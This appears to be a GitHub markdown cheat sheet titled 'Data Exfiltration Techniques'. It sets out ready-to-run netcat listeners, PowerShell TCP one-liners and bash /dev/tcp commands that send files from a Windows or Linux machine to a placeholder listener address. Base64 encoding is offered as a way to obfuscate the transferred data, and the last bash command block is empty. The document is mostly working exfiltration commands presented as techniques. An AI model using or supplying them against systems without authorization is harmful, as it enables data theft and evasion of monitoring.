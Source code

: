 # Data Exfiltration Techniques
#### This is a list of some data exfiltration techniques if you don't have access to SCP, FTP, SMB, etc.

***

### Windows To Linux

#### Send file from remote client to host machine:

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup NetCat listener on Linux host:

```
nc -lp %ListeningPort% > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Windows host run the following in PowerShell:

```
$FilePath = "$pwd\file.ext"; $LHOST = "%ListenerAddress%"; $LPORT = %ListeningPort%; $FileContents = [System.IO.File]::ReadAllBytes($FilePath); $Length = [System.BitConverter]::GetBytes($FileContents.Length); $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $NetworkStream.Write($FileContents, 0, $FileContents.Length); $NetworkStream.Close(); $TCPClient.Close()
```

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup NetCat listener on Linux host:

```
nc -lp %ListeningPort% | base64 -d > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Windows host run the following in PowerShell:

```
$FilePath = "$pwd\file.ext"; $LHOST = "%ListenerAddress%"; $LPORT = %ListeningPort%; $Base64String = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("$FilePath")); $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $StreamWriter.Write($Base64String); $StreamWriter.Close(); $NetworkStream.Close(); $TCPClient.Close()
```

###### If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

***

### Linux To Linux

#### Send file from remote client to host machine:

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup NetCat listener on Linux host:

```
nc -lp port > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Linux client connect back with NetCat:

```
nc -q 0 %ListenerAddress% %ListeningPort% < file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If NetCat is unavailable, on the Linux client connect back with bash:

```
cat file.ext >& /dev/tcp/%ListenerAddress%/%ListenerPort%
```

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup NetCat listener on Linux host:

```
nc -lp %ListeningPort% | base64 -d > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Linux client connect back with NetCat:

```
base64 -w0 file.ext | nc -q 0 %ListenerAddress% %ListeningPort%
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If NetCat is unavailable, on the Linux client connect back with bash:

```
base64 -w0 file.ext >& /dev/tcp/%ListenerAddress%/%ListenerPort%
```

#### Retrieve file from host to client:

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup NetCat listener on Linux host:

```
nc -q 0 -lp %ListenerPort% < file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Linux client connect back with NetCat:

```
nc %ListenerAddress% %ListeningPort% > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If NetCat is unavailable, on the Linux client connect back with bash:

```

```
